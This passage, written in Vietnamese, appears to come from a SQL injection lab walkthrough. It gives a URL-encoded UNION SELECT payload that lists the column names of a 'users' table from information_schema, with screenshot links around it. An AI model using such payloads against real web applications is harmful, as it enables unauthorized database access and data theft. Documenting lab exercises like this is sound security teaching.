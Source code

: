 ![](./img_sql/sql-6.png)

- Khi tôi đã biết đến tên bảng. Bây giờ tôi sẽ thực hiện để tìm tên cột trong bảng bằng truy vấn sau:

```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_vkehtx'--
```

![](./img_sql/sql-6.1.png)
